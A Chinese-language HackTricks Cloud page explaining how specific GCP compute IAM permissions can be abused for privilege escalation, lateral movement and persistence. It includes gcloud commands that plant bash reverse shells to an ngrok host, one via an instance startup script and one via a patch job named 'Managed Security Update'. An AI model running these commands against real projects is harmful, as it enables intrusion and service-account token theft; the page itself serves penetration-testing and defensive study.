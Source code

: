 # GCP - 计算特权升级

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 计算

有关GCP中计算和VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
请注意，要执行所有需要修改实例元数据的特权升级攻击（如添加新用户和SSH密钥），**需要您对附加到实例的SA具有`actAs`权限**，即使SA已经附加！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

拥有此权限，您可以**修改**实例的**元数据**信息并更改**用户的授权密钥**，或**创建**一个具有sudo权限的**新用户**。因此，您将能够通过SSH登录到任何VM实例并窃取实例正在运行的GCP服务帐户。\
限制：

* 请注意，默认情况下在VM实例中运行的GCP服务帐户具有**非常有限的范围**
* 您需要**能够联系SSH**服务器以登录

有关如何利用此权限的更多信息，请查看：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

您还可以通过添加新的启动脚本并重新启动实例来执行此攻击：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

此权限提供与先前权限相同的权限，但仅针对特定实例而不是整个项目。适用于先前部分的**相同利用和限制**。

### `compute.instances.setIamPolicy`

此类权限将允许您**授予自己具有先前权限的角色**并滥用它们来提升权限。

### **`compute.instances.osLogin`**

如果实例中启用了**OSLogin**，使用此权限，您只需运行**`gcloud compute ssh [INSTANCE]`**即可连接到实例。您**不会在实例内具有 root 权限**。

{% hint style="success" %}
为了成功使用此权限在 VM 实例内登录，您需要对附加到 VM 的 SA 具有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### **`compute.instances.osAdminLogin`**

如果实例中启用了**OSLogin**，使用此权限，您只需运行**`gcloud compute ssh [INSTANCE]`**即可连接到实例。您将在实例内具有**root权限**。

{% hint style="success" %}
为了成功使用此权限在 VM 实例内登录，您需要对附加到 VM 的 SA 具有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

可以**创建具有分配的服务帐户的虚拟机并窃取服务帐户的令牌**，通过访问元数据来提升权限。

此方法的利用脚本可以在[此处](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)找到。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

如果您具有**`osconfig.patchDeployments.create`**或**`osconfig.patchJobs.exec`**权限，您可以创建一个[**补丁作业或部署**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)。这将使您能够在环境中横向移动，并在项目中的所有计算实例上获得代码执行权限。

请注意，目前您**不需要对附加到实例的 SA 具有`actAs`权限**。

如果要手动利用此功能，您需要创建一个[**补丁作业**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json)**或**[**部署**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**。\
对于补丁作业，请运行：

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

部署补丁部署：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
工具[patchy](https://github.com/rek7/patchy)过去曾被用于利用这个配置错误（但现在已经无法工作）。

**攻击者也可以利用这个来实现持久性。**

### `compute.machineImages.setIamPolicy`

**为计算机镜像授予额外权限**。

### `compute.snapshots.setIamPolicy`

**为磁盘快照授予额外权限**。

### `compute.disks.setIamPolicy`

**为磁盘授予额外权限**。

### 绕过访问范围

点击此链接找到一些[**尝试绕过访问范围的想法**](../)。

### GCP计算实例中的本地权限提升

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
